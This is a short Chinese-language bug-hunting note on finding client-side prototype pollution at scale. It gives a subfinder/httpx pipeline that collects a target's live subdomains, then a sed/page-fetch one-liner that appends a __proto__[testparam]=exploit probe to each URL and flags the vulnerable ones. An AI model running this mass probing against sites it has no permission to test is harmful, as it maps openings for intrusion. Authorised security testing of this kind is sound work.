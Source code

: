 ## 另类漏洞批量挖掘

## 原型链污染

1.获取子域

```
subfinder -d http://target.com -all -silent | httpx -silent | anew alive.txt
```

2.检查/发现漏洞

```
sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULN"
```



